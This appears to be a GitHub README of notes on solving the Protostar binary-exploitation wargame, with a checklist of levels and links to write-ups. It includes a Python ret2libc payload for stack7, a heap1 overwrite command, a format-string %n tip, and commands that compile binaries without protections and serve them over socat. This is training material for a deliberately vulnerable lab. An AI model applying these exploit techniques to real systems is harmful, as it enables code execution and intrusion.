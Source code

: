 # Protostar

## Stack
- [x] stack0
- [x] stack1
- [x] stack2
- [x] stack3
- [x] stack4
- [x] stack5
- [x] stack6
- [x] stack7
```
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
return_op = struct.pack("I",0x08048544)
call_system = struct.pack("I",0xb7ecffb0)
after_system_execution = struct.pack("I",0xb7ec60c0)
bin_sh_path = struct.pack("I",0xb7fb63bf)
print padding + return_op + call_system + after_system_execution + bin_sh_path
```

## Format String
- [x] format0
- [x] format1
- [x] format2
```
%n4u (replace 4 with additional data you want for %n )
```
- [x] format3
- [x] format4

## Heap
- [x] heap0
- [x] heap1
```
./heap1 "`/bin/echo -ne "AAAABBBBCCCCDDDDEEEE\x74\x97\x04\x08"`" "`/bin/echo -ne "\x94\x84\x04\x08"`"
```
- [x] heap2
```
exploiting use-after-free bug
```
- [x] heap3
```
need to create a fake chunk and unlink it explictly
then forward & backward pointer is abused to write change the PLT

hence executing the winner function
```

## Network

- [x] net0
```
echo -ne "`cat -`" | nc 127.0.0.1 2999

to enter the little endian string
```
- [x] net1
- [x] net2

## Final
- [ ] final0
- [ ] final1
- [ ] final2

## Create a Binary with no stack canary, executable stack and no PIE (Position Independent Code)
```
gcc <input> -o <output> -fno-stack-protector -z execstack -no-pie
```

## Using socat on binary file
attaching binary to the port
```
socat TCP-LISTEN:1337,nodelay,reuseaddr,fork EXEC:"stdbuf -i0 -o0 -e0 ./<Program name>"
```

# Reference
- https://old.liveoverflow.com/binary_hacking/protostar/index.html
- https://exploit.education/protostar/
- https://ctf101.org/binary-exploitation/overview/

# Writeup & Video
- https://kevinalmansa.github.io/write-ups/Protostar-Stack-Write-up/
- https://www.youtube.com/playlist?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
- https://failingsilently.wordpress.com/exploit-development/
- https://www.ayrx.me/protostar-walkthrough-format ( format string writeup )

# Tools
- https://github.com/inaz2/roputils
- https://github.com/JonathanSalwan/ROPgadget
